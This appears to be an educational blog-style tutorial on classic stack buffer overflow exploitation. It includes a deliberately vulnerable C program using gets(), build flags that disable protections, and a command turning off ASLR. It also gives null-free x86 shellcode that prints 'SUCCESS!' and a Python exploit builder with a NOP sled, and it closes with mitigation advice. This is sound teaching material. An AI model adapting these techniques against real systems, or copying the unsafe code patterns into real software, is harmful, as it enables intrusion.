








# Shellcode

## What is it?

Shellcode is a small piece of code written by an attacker of a software system. This code is run when an attacker is able to successfully exploit a vulnerability in an application. For the purposes of this article, we will exploit this simple program:

## The target

<strong>vuln.c</strong>
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getinput()
{
  char buffer[64];
  printf("%p\n", buffer); // print address of the beginning of buffer

  printf("> "); 
  fflush(stdout);

  gets(buffer); // overflow happens here

  printf("\ngot input: %s\n", buffer);
}

int main(int argc, char **argv)
{
  getinput();
}
```

This simple program takes input from the user and prints it back. To get input from the user, the program uses the `gets()` function. This function is dangerous since it does not check for buffer overflow. For simplicity, we will compile this program for 32-bit linux, turn off [Address Space Layout Randomization (ASLR)](https://en.wikipedia.org/wiki/Address_space_layout_randomization), turn off [Stack Canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries), and allow the stack to be executable. 

Turn off ASLR: 

`sudo sh -c "echo 0 >> /proc/sys/kernel/randomize_va_space"`

<strong>Makefile</strong>
```Make
CC=gcc

all: vuln

vuln: vuln.c
  $(CC) -o vuln -m32 -Wno-deprecated-declarations -Wno-overflow -fno-stack-protector vuln.c -z execstack

clean:
  rm vuln
```

<strong>Example run:</strong>




## Exploitation

We can see that this program is indeed vulnerable to a buffer overflow by providing it more input than it has to store:



To exploit the buffer overflow in this program, we will place shellcode on the stack and overflow the return address to point to the beginning of our code on the stack:



To test our current understanding of the stack, we can try and overflow the target program, overwriting the return address and cause a segmentation fault:



There was no segmentation fault? Maybe our current understanding of the stack is flawed. Let's disassemble the program to see what's up.

`objdump -d vuln`



From the preamble of this function call, we can see that the program allocates 0x48 bytes of storage on the stack. This does not make much since since our function only requires 0x40 (64) bytes to store the contents of `buffer[64]`. So why is this? [With some research](https://stackoverflow.com/questions/4175281/what-does-it-mean-to-align-the-stack), it appears that this is because the x86 architecture has some instructions that can run in parallel, but only when the stack pointer is aligned on a 16-byte boundary. In order to align `$esp ` to the boundary, the compiler needs to create an 8 byte gap at the end of the stack frame. This should not change our plan of attack, we just need to overflow the buffer by 8 more bytes to overcome this gap. 



Now that we have a new understanding of the stack, we can try again to exploit it:



We have successfully overwritten the return address of the function! Now we need to write some shellcode and change the return address of the program to point to it.

## Writing Shellcode

Actually writing shellcode is quite easy. You can do this by writing some assembly and assembling it. Then you can extract the binary from the object file. My framework for shellcode development can be found [here](https://github.com/gilderjw/shellcode). Another good resource is [shell-storm.org](http://shell-storm.org/shellcode/). This website has a bunch of different examples of shellcode for different architectures. One thing to keep in mind when writing shellcode is that you cannot have any null bytes if the overflow is due to a call to `gets()`. To overcome this restriction, an attacker has to get a little creative to accomplish their goal.

<strong>My shellcode:</strong>
```asm
.section .text
.intel_syntax noprefix
.global main

main:
    mov edx, 0x08080808         # not length of string yet, need to shift
    shr edx, 24                 # edx = 8
    
    push 0x21535345             # ESS!
    push 0x43435553             # SUCC
    mov ecx, esp
    
    mov ebx, 0x01010101         # use stdio as file descriptor
    shr ebx, 24                 # ebx = 1

    mov eax, 0x04040404         # fwrite system call
    shr eax, 24                 # eax = 4

    int 0x80                    # syscall

    mov eax, 0x01010101         # exit system call
    shr eax, 24                 # eax = 3

    int 0x80                    # syscall
```

This assembly code will set up the registers and evoke the write system call to print the string 'SUCCESS!' to standard output. When I create shellcode out of this with my framework, I get the string: `'\xba\x08\x08\x08\x08\xc1\xea\x18\x68\x45\x53\x53\x21\x68\x53\x55\x43\x43\x89\xe1\xbb\x01\x01\x01\x01\xc1\xeb\x18\xb8\x04\x04\x04\x04\xc1\xe8\x18\xcd\x80\xb8\x01\x01\x01\x01\xc1\xe8\x18\xcd\x80'`

## Putting it all together

Now that we know how to modify the target program's control logic and we have code that we wish to run, we can now create our proof of concept exploit.

<strong>exploit.py</strong>
```python 
#!/usr/bin/python 

import sys
import struct

BUFFER_SIZE = 64
EXTRA_PADDING = 8

# prints SUCCESS!
SHELLCODE = '\xba\x08\x08\x08\x08\xc1\xea\x18\x68\x45\x53\x53\x21\x68\x53\x55\x43\x43\x89\xe1\xbb\x01\x01\x01\x01\xc1\xeb\x18\xb8\x04\x04\x04\x04\xc1\xe8\x18\xcd\x80\xb8\x01\x01\x01\x01\xc1\xe8\x18\xcd\x80'

NOP_SIZE = BUFFER_SIZE - len(SHELLCODE) + EXTRA_PADDING

def main(buffer_address):

  # the memory right after the current stack frame is not used, we can use this for stack variables in the shellcode
  new_ebp = struct.pack('<I', buffer_address)

  # our shellcode is at the beginning of the buffer
  new_eip = struct.pack('<I', buffer_address)

  # build the string
  exploit = SHELLCODE +\
            '\x90' * NOP_SIZE + \
            new_ebp +\
            new_eip

  print(exploit)

if __name__ == '__main__':
  main(int(sys.argv[1], 16))

```

This program will take in the address of `buffer[64]` and creates the exploit string that runs our shellcode. The exploit string is made from our shellcode, a string of NOPs (\x90) for padding, the address that we will begin our new stack, and the address to the beginning of our shellcode.



We can now see that the program successfully runs our shellcode and prints SUCCESS! to standard output.

## Tips for shellcoding

* Develop your exploit with a program. Many headaches will occur if you try to make the string manually.
* The byte `\xcc` is a software breakpoint on the x86 architecture. Put this in your shellcode and gdb will stop execution when it reaches it.
* Draw your current understanding of the stack as you go. This will avoid uneeded confusion.

## Avoiding this in your own software

This vulnerability and exploitation is fairly easy to mitigate with today's hardware and software. To get this exploit to work on Ubuntu 16.04 and gcc 5.4.0, I had to add a bunch of compiler flags and turn off ASLR.

To prevent this vulnerability from happening in the first place, a programmer should not use dangerous functions such as `gets()`. `gcc` will give the user a warning if one of these functions are used. More subtle buffer overflows can be part of a programs logic, so it is important to keep the possibility of buffer overflows in mind while developing software.

To mitigate the possibility of exploitation of such a vulnerability, a programmer should use the default settings of `gcc`. By default, `gcc` puts stack canaries in your program and flags stack memory as non-executable. These mitigations greatly complicate the process of developing an exploit for a vulnerable piece of software.